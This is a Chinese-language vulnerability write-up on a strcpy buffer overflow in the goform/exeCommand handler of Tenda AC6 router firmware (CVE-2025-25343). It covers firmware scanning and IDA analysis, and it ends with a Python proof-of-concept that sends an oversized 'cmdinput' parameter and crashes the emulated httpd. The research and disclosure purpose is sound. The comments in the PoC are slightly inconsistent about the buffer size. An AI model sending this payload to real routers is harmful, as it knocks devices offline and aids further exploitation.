sudo ./emba -l ./logs/TendaAC\_6 -f /home/ml/IoT\_ Dev\_Vul/Routers/Router\_Vuls/\_US\_AC6V1.0BR\_V15.03.05.16\_multi\_TD01.bin.extracted/squashfs-root

根据分析结果发现httpd使用了大量的危险函数，例如下图



fprintf: 56 次调用、存在格式字符串漏洞 ；mmap: 1 次调用、内存映射，有正确的错误处理；再根据危险函数的在 ida 中静态分析处理即可。

## 漏洞原理分析

**漏洞分析**

根据Tenda AC6 V15.03.05.16固件在formexeCommand函数中存在缓冲区溢出漏洞。strcpy（s，src）函数将src字符串的内容复制到s，而不执行边界检查。因此，如果src的长度超过512字节，将导致缓冲区溢出，覆盖s数组后的内存区域，这可能会导致程序崩溃并触发此安全漏洞。



进一步跟进分析交叉引用

 其中，.got:formexeCommand\_ptr：动态链接程序中用来存储函数地址的区域，GOT中定义formexeCommand函数的地址。

分析.got:formexeCommand\_ptr



首先我们可以看到formexeCommand\_ptr是一个常量，它存储了formexeCommand函数的地址，并且这个地址被记录在.got中，供sub\_42240函数使用。

​

其次，跟进函数 sub\_42240:



看起来是一个初始化函数，它负责注册一系列的回调函数，这些回调函数对应于不同的路由路径或操作。

这个函数通过调用sub\_FE58和sub\_16F24函数来实现注册。

​



​

这行代码表示当路由路径为goform/formexeCommand时，formexeCommand函数将被调用来处理请求。

下面是对整个过程的分析：

sub\_2B7C4 函数没有充分验证的情况下返回用户控制的字符串。在 formexeCommand 中，返回的字符串直接用于strcpy(s,src)中，将src内容复制到s，并未执行边界检查。

sub\_16F24函数则负责将特定的路由路径（如exeCommand）与对应的处理函数（如formexeCommand）关联起来。当网络设备接收到一个指向特定路由路径的请求时，sub\_16F24会调用相应的处理函数来执行操作。

sub\_42378 函数表示当路由路径为 goform/exeCommand 时，formexeCommand 函数将被调用来处理请求。

所以我们可以针对url = "http://192.168.18.131/goform/exeCommand"构造长度超过512字节的溢出载荷。

## 漏洞复现

**PoC**

qemu-arm-static ip:192.168.29.129（虚拟网桥 br0）

|  |
| --- |
| import requests  # 构造溢出载荷  def create\_payload():  ​# 假设 cmdinput 的目标缓冲区大小为 512 字节  ​buffer\_size = 51200  ​# 填充 512 字节（覆盖 s 数组）  ​payload = b"A" \* buffer\_size  ​# 假设我们想覆盖 v11（4 字节，Little-endian 格式），填充目标数据  ​# 举例：将 v11 设置为 0xdeadbeef  ​v11\_value = b"ï¾­Þ"  ​# 将溢出数据和 v11\_value 拼接  ​payload += v11\_value  ​return payload  # 构造 HTTP 请求并发送  def send\_payload(url, payload):  ​# 发送 GET 请求，带上恶意的 cmdinput 参数  ​params = {'cmdinput': payload}  ​response = requests.get(url, params=params)  ​response = requests.get(url, params=params)  ​# 打印响应内容  ​print("Response status code:", response.status\_code)  ​print("Response body:", response.text)  if \_\_name\_\_ == "\_\_main\_\_":  ​# 目标 URL  ​url = "http://192.168.29.129/goform/exeCommand"  ​# 创建恶意载荷  ​payload = create\_payload()  ​# 发送恶意请求  ​send\_payload(url, payload) |

touch后将poc写入，添加可执行权限并执行，进行流量捕获分析



可以看到“段错误（核心已转储）”（Segmentation fault(core dumped)）并自动退出。

## 参考

<https://www.cve.org/CVERecord?id=CVE-2025-25343>

<https://github.com/wy876/cve/issues/4>

​

​

​
